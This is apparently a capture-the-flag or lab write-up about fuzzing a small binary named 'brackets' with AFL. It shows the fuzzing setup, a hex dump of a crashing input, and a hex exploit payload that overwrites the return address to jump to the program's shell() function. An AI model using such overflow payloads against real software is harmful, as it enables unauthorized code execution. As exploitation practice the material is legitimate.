

### AFL setup:
```sh
$ mkdir input
$ mkdir output
$ echo 'aaa\n' > input/test.txt
$ ~/AFL/afl-fuzz -Q -i input/ -o output/ ./brackets
```



Reliable raw crash:
```
0000 0000 0000 0010 0000 0000 0000 0000
0000 0000 0000 0000 0000 0b00 0000 0000
0000 0000 0000 0000 0000 f6ff 0000 0000
0000 0000 0000 0000 0000 0000 0000 00fa
0000 fa0e 0000 0000 0000 ff00 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 4000 1e00 0000 0000 0000
0004 0000 0000 0000 001f 0000 0000 0000
0000 0000 00e8 d100 
```

Exploit:
```
4141 4141 4141 4242 4242 4242 4242 4242
4242 4343 4343 0000 4444 4444 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 f605 4000 0000 0000 <- ret (shell() function)
0000 0000 0000 0000 0000 0000 0000 0000
0060 eaff ff7f 0000 
```